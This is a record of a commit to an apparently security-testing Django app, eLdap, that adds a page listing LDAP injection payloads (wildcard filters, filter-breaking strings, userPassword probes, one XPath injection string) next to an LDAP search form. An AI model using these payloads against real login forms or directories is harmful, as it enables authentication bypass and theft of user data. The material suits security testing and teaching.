
After one commit to EmreOvunc/eLdap-Ldap-Search-and-Filter, a Django app: page /payloads in a window 1280 px wide. The commit adds this page. Shown: the whole page, without its empty margins (8-876 px from the left). Run offline with Django 3.2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Some improvements were made.
Ldap search & filter options are added.
Ldap injection payloads are added.
Custom 404.html is added :)

```diff
--- a/eldap/urls.py
+++ b/eldap/urls.py
@@ -2,5 +2,7 @@ from django.urls import path
 from ldapvulns import views
 
 urlpatterns = [
-    path('', views.vulns, name='vulns'),
+    path('', views.search, name='main'),
+    path('payloads', views.payloads, name='payloads'),
+    path('search', views.search, name='search'),
 ]
--- a/ldapvulns/urls.py
+++ b/ldapvulns/urls.py
@@ -3,3 +3,4 @@ from django.urls import path, include
 urlpatterns = [
     path('', include('eldap.urls')),
 ]
+handler404 = "eldap.views.error404"
--- a/ldapvulns/views.py
+++ b/ldapvulns/views.py
@@ -1,4 +1,5 @@
 from django.shortcuts import render
+from django.shortcuts import render_to_response
 from .forms import SimpleForm
 import ldap
 
@@ -28,16 +29,20 @@ def ldapfunc(ip, port, username, password, base, filter):
         return e
 
 
-def vulns(request):
+def search(request):
     if request.method == 'POST':
         form = SimpleForm(request.POST)
         result = ldapfunc(form.data['ldap_ip'], form.data['ldap_port'], form.data['username'], form.data['password'], form.data['search_base'], form.data['search_filter'])
 
         if form.is_valid():
-            return render(request, 'eldap/vulns.html', {'form': form, 'result': result})
+            return render(request, 'eldap/search.html', {'form': form, 'result': result})
 
     else:
         form = SimpleForm()
         result = ""
 
-    return render(request, 'eldap/vulns.html', {'form': form, 'result': result})
+    return render(request, 'eldap/search.html', {'form': form, 'result': result})
+
+
+def payloads(request):
+    return render(request, 'eldap/payloads.html')
--- a/templates/eldap/main.html
+++ b/templates/eldap/main.html
@@ -1,6 +1,6 @@
 <!DOCTYPE html>
     <head>
-        <title>eLdap | Ldap Filter & Search </title>
+        <title>eLdap | Ldap Filter & Search | Injection</title>
         <link rel="stylesheet" href="//maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css">
         <link rel="stylesheet" href="//maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap-theme.min.css">
         <link href='//fonts.googleapis.com/css?family=Lobster&subset=latin,latin-ext' rel='stylesheet' type='text/css'>
@@ -17,10 +17,15 @@
 </style>
     <body>
         <div class="page-header">
-            <h1><a href="/"><u>eLdap</u> | Ldap Filter & Search </a></h1>
-        </div>
+            <h1><a href="/"><u>eLdap</u> | Ldap Filter & Search | Injection</a></h1>
+            <h4>
+                <a href="/search">Search & Filter</a>
+                <a style="padding-left:4em" href="/payloads">Payloads</a>
+            </h4>
         <div class="content container">
+
             <div class="row">
+
                 <div class="col-md-8">
                     {% block content %}
                     {% endblock %}
--- /dev/null
+++ b/templates/eldap/payloads.html
@@ -0,0 +1,55 @@
+<html>
+{% extends 'eldap/main.html' %}
+
+{% block content %}
+<style>
+table {
+  font-family: arial, sans-serif;
+  border-collapse: collapse;
+  width: 100%;
+}
+
+td, th {
+  border: 1px solid #dddddd;
+  text-align: left;
+  padding: 8px;
+}
+
+tr:nth-child(even) {
+  background-color: #dddddd;
+}
+</style>
+<div class="row">
+<div class="column">
+  <table>
+  <tr>
+    <th>Payloads</th>
+  </tr>
+      <tr><td>*</td></tr>
+    <tr><td>*)(&</td></tr>
+    <tr><td>*))%00</td></tr>
+    <tr><td>)(cn=))\x00</td></tr>
+    <tr><td>*()|%26'</td></tr>
+    <tr><td>*()|&'</td></tr>
+    <tr><td>*(|(mail=*))</td></tr>
+    <tr><td>*(|(objectclass=*))</td></tr>
+    <tr><td>*)(uid=*))(|(uid=*</td></tr>
+    <tr><td>*/*</td></tr>
+    <tr><td>*|</td></tr>
+    <tr><td>/</td></tr>
+    <tr><td>//</td></tr>
+    <tr><td>//*</td></tr>
+    <tr><td>@*</td></tr>
+    <tr><td>|</td></tr>
+    <tr><td>admin*</td></tr>
+    <tr><td>admin*)((|userpassword=*)</td></tr>
+    <tr><td>admin*)((|userPassword=*)</td></tr>
+    <tr><td>x' or name()='username' or 'x'='y</td></tr>
+</table>
+</div>
+    <p></p>
+    <div style="color: darkgrey"> Developed by @EmreOvunc</div>
+</div>
+
+{% endblock %}
+</html>
```
Also changed, not shown: eldap/settings.py (+3 -49 lines), templates/404.html (added, +15 -0 lines), README.md, db.sqlite3 (deleted), templates/eldap/search.html (renamed from templates/eldap/vulns.html).
